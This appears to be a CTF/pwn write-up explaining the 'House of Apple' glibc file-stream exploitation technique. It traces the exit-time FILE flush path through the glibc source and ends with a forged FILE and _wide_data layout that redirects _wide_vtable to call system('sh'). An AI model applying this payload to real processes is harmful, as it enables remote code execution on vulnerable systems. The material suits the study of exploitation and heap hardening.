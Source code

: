 ```yaml
---
title: House of Apple
date: 2023-12-04 12:54:17
tags:
  - ["pwn", "fsop"]
---
```


Original article: <https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-1/>

Requirements:
1. can call `exit` or return from `main`
2. heap_base and libc_base
3. single largebin chunk
4. <=2.36

## Overview

When `exit` is called, the FILE cleanup call stack is `fcloseall -> _IO_cleanup -> _IO_flush_all_lockp`.

```c
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF) // <--- overflow call
	result = EOF;

      if (do_lock)
	_IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}

// definition of _IO_OVERFLOW
typedef int (*_IO_overflow_t) (FILE *, int);
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
#define _IO_WOVERFLOW(FP, CH) WJUMP1 (__overflow, FP, CH)

#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
#define WJUMP1(FUNC, THIS, X1) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

#define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable(_IO_JUMPS_FILE_plus (THIS) + (THIS)->_vtable_offset) )
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)

#define _IO_JUMPS_FILE_plus(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE_plus, vtable)
#define _IO_WIDE_JUMPS(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
```

So for each FILE in `_IO_list_all`, its `vtable->__overflow` is called when the below requirements are satisfied:

1. `fp->_mode == 0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

Also the macros for `_wide_data` are not protected by `IO_validate_vtable`,
so we can use this to get RCE.

The definition for the vtable for `_IO_wfile` is

```c
const struct _IO_jump_t _IO_wfile_jumps libio_vtable =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_new_file_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wfile_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wfile_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wdefault_pbackfail),
  JUMP_INIT(xsputn, _IO_wfile_xsputn),
  JUMP_INIT(xsgetn, _IO_file_xsgetn),
  JUMP_INIT(seekoff, _IO_wfile_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_new_file_setbuf),
  JUMP_INIT(sync, (_IO_sync_t) _IO_wfile_sync),
  JUMP_INIT(doallocate, _IO_wfile_doallocate),
  JUMP_INIT(read, _IO_file_read),
  JUMP_INIT(write, _IO_new_file_write),
  JUMP_INIT(seek, _IO_file_seek),
  JUMP_INIT(close, _IO_file_close),
  JUMP_INIT(stat, _IO_file_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```

We can set our victim FILE to point to this vtable. On exit, it will call the
overflow function, `_IO_wfile_overflow`, which is defined as:

```c
wint_t _IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f); // <-- call to _IO_wdallocbuf macro
	  _IO_free_wbackup_area (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
    // ...
    }
}

void _IO_wdoallocbuf (_IO_FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}

#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
```

The `_IO_wfile_overflow` function calls `_IO_wdoallocbuf`, which
then jumps to `__doallocate` of the `_wide_vtable`, passing the FILE struct as
the first argument.

So our call stack looks like this:

```
_IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> __doallocate
```

Also, the struct of `f->_wide_data` is

```c
/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;
  wchar_t *_IO_read_end;
  wchar_t *_IO_read_base;
  wchar_t *_IO_write_base; // 0x18
  wchar_t *_IO_write_ptr;
  wchar_t *_IO_write_end;
  wchar_t *_IO_buf_base; // 0x30
  wchar_t *_IO_buf_end;	
  wchar_t *_IO_save_base;
  wchar_t *_IO_backup_base;
  wchar_t *_IO_save_end;
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
  wchar_t _shortbuf[1];
  const struct _IO_jump_t *_wide_vtable; // 0xe0
};
```

It's quite similar to FILE, but vtable is at 0xe0.

Analyzing each of the functions, we need to satisfy:
1. `f->flags == ~(0x8 | 0x800 | 2)` (unset `_IO_NO_WRITES`, `_IO_CURRENTLY_PUTTING` and `_IO_UNBUFFERED`)
2. `f->_wide_data->_IO_write_base == 0`
2. `f->_wide_data->_IO_buf_base == 0`

Then our desired function goes into `__doallocate`, and RDI goes into flags (first thing in FILE struct).

## Payload

With the above conditions satisfied, our FILE struct will look like this:

```c
// FILE
f->_flags = "  sh";
f->write_base = 0; // +0x20
f->write_ptr = 1; // +0x28
f->_wide_data = 0; // <forged wide_data struct> at +0xa0
f->_mode = 0; // +0xc0 (note: pwntools FILE struct doesn't have this, but can leave as blank cos default is probably 0)
f->vtable = &_IO_wfile_jumps; // +0xd8

// _wide_data (can forge in heap etc)
_wide_data->_IO_write_base = 0; // +0x18
_wide_data->_IO_buf_base = 0; // +0x30
_wide_data->_wide_vtable = &(system) - 0x68; // <address of system - 0x68> at 0xe0
```

There are a few more gadget chains using `_IO_wfile_underflow_mmap`,
`_IO_wdefault_xgetn`, `_IO_wfile_underflow`, `_IO_wdo_write` and
`_IO_wfile_sync` which I will put here once I analyze them.
